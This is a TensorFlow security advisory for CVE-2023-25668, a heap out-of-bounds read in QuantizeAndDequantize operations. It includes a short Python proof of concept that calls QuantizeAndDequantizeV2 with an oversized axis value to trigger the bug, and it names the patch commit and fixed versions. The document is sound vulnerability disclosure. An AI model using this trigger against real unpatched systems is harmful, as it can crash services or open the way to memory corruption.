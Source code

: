 ## TFSA-2023-002: A heap out-of-buffer read vulnerability in the QuantizeAndDequantize operation

### CVE Number
CVE-2023-25668

### Impact
Attackers using Tensorflow can exploit the vulnerability. They can access heap memory which is not in the control of user, leading to a crash or RCE.
When axis is larger than the dim of input, c->Dim(input,axis) goes out of bound.
Same problem occurs in the QuantizeAndDequantizeV2/V3/V4/V4Grad operations too.
```python
import tensorflow as tf
@tf.function
def test():
    tf.raw_ops.QuantizeAndDequantizeV2(input=[2.5],
    								   input_min=[1.0],
    								   input_max=[10.0],
    								   signed_input=True,
    								   num_bits=1,
    								   range_given=True,
    								   round_mode='HALF_TO_EVEN',
    								   narrow_range=True,
    								   axis=0x7fffffff)
test()
```



### Patches
We have patched the issue in GitHub commit [7b174a0f2e40ff3f3aa957aecddfd5aaae35eccb](https://github.com/tensorflow/tensorflow/commit/7b174a0f2e40ff3f3aa957aecddfd5aaae35eccb).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.




